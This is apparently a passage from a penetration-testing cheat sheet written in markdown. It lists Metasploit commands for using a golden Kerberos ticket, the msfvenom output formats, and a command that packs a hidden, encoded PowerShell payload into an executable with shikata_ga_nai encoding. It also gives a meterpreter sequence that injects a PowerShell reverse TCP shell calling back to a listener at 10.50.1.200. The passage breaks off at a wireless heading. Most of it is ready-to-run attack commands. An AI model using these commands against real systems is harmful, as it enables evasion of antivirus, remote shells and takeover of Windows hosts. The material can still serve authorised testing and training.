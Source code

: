 List all tickets

{% highlight PowerShell %}
kerberos_ticket_list
{% endhighlight %}

Use a ticket

{% highlight PowerShell %}
kerberos_ticket_use /root/Downloads/goldkey.tkt
{% endhighlight %}

## MSFVenom

Format Options (Specified with -f)

Executable formats

{% highlight PowerShell %}
asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection, vba, vba-exe, vbs, war
{% endhighlight %}

Transform formats

{% highlight PowerShell %}
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
{% endhighlight %}

Create a powershell encode payload inside an exe

{% highlight PowerShell %}
msfvenom -p windows/exec CMD=”powershell -ep bypass -W Hidden -enc [ENCODED POWERSHELL]“ -f exe -e x86/shikata_ga_nai -o /root/Desktop/evilsaint.exe
{% endhighlight %}

## Switch to Powershell from a meterpreter

{% highlight PowerShell %}
use post/windows/manage/payload_inject
set handler true
set payload windows/powershell_reverse_tcp
set lhost 10.50.1.200
set session 16
set PID 564
Run
{% endhighlight %}

# Wireless

Search for wireless device information on: https://wiki.openwrt.org/

Puts Card In Monitor Mode and Changes MAC Address
